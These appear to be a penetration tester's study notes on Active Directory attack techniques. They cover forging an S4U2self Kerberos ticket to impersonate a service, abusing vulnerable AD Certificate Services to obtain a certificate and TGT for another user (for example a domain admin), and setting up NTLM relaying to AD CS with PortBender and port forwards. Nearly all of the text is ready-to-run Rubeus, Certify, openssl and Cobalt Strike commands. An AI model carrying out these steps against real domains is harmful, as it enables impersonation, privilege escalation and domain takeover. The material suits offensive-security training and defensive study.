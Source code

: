 ```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\s4u2self.kirbi", [System.Convert]::FromBase64String("..."))
```

open TGS in ASN.1 Editor replace the general string wkstn-2$ to cifs or whatever service you want to impersonate. and add a node underneath with the hex 1b. give that new node a value of the FQDN.

confirm ticket is updated

```
C:\Tools\Rubeus\Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\s4u2self.kirbi
```

import kirbi file

```
make_token CHILD\USER password

kerberos_ticket_use C:\Users\Administrator\Desktop\cifs-dc.kirbi
```

### Active Dirtectory Certificate Services

find vulnerable AD CD CA's

```
execute-assembly C:\Tools\Certify\Certify.exe cas
```

This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain.

Take the private key and certificate. Copy and paste it into Kali and name it cert.pem

convert to pfx

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Convert `cert.pfx` into a base64 encoded string:  `cat cert.pfx | base64 -w 0` and use `Rubeus asktgt` to request a TGT using this certificate.

Request TGT for `target_user`

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe asktgt /user:target_user /certificate:... /password:password /aes256 /nowrap
```

#### NTLM Relaying to ADCS HTTP Endpoints

As SYSTEM on unconstrained delegation SRV:

```
 PortBender redirect 445 8445

 rportfwd 8445 127.0.0.1 445

 socks 1080
```
